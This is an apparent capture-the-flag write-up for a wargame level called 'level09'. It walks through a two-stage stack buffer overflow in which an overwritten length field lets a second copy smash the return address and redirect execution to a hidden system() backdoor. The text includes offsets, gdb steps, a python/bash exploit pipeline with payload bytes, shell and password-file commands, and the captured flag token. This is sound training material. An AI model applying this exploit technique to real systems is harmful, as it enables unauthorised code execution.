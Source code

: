 # level09

1. Overview

* Two-step **stack overflow** leading to a clean ret2win into a hidden backdoor.
* `set_username()` can overwrite fields **past** a 140-byte buffer, including the message length used by `set_msg()`.
* `set_msg()` then copies attacker-controlled bytes into the same buffer using that (now attacker-chosen) length, letting us overwrite the **return address**.
* Target function to jump to: `secret_backdoor()`, which runs `system()` on a line read from stdin.

```c
void secret_backdoor(void) {
    char buf[128];
    fgets(buf, 0x80, stdin);
    system(buf);
}
```

2. What the code does (short)

* `handle_msg()` allocates a 140-byte buffer on the stack plus several locals. It sets `msg_len = 0x8c` (140).
* `set_username(buf)` reads up to 0x80 bytes, then copies **up to 0x29 (41) bytes** into **`buf + 0x8c`**. That writes **beyond** the 140-byte buffer into the adjacent locals.
* `set_msg(buf)` reads a message and does `strncpy(buf, msg, *(int *)(buf + 0xb4))`. The length at `buf + 0xb4` is exactly the `msg_len` field we can modify via `set_username()`.
* Overflow with `set_msg()` to smash the return address and point it at `secret_backdoor`.

3. Key offsets (typical x86-64 build)

* `buf`           at offset 0
* `msg_len`       at **offset 180** (`buf + 0xb4`) ← we want to set this high (e.g., 500)
* saved return    around **offset ~200** (varies slightly by build; 200 works in the reference)
* Distance from `buf + 0x8c` (where `set_username` writes) to `msg_len` is **40 bytes** → within the 41-byte copy budget

4. Find `secret_backdoor` address

```gdb
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = (void (*)(void)) 0x55555555488c   # example
```

Use your own address if it differs.

5. Exploit plan

* **Stage 1 (username):** set `msg_len` to a large value (e.g., `500`). We do this by writing 40 padding bytes, then the little-endian integer `0x000001f4` at `buf+0xb4`.
* **Stage 2 (message):** send `B * <offset_to_RET>` followed by the **little-endian** 8-byte address of `secret_backdoor`.
* Keep stdin open so `secret_backdoor()` can read and execute your command.

6. Commands (single pipeline)

```bash
# Example with secret_backdoor = 0x000055555555488c
(
  python -c "print('A'*40 + '\xf4\x01\x00\x00')";              # Stage 1: msg_len = 500
  python -c "print('B'*200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')";  # Stage 2: smash RET
  cat                                                     # keep stdin open for backdoor
) | ./level09
```

Then type a command for the backdoor, e.g.:

```bash
/bin/sh
# or directly:
cat /home/users/end/.pass
```

7. Why this works

* `set_username` lets you write **41 bytes** starting at `buf + 0x8c`. Writing 40 bytes of padding plus a 4‑byte integer lands exactly on `msg_len` at `buf + 0xb4`.
* `set_msg` trusts `msg_len` and overflows the 140‑byte buffer with up to `msg_len` bytes, smashing the saved return.
* On function return, control transfers to `secret_backdoor`, which immediately calls `system()` on input you provide.

8. Token

Token found `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
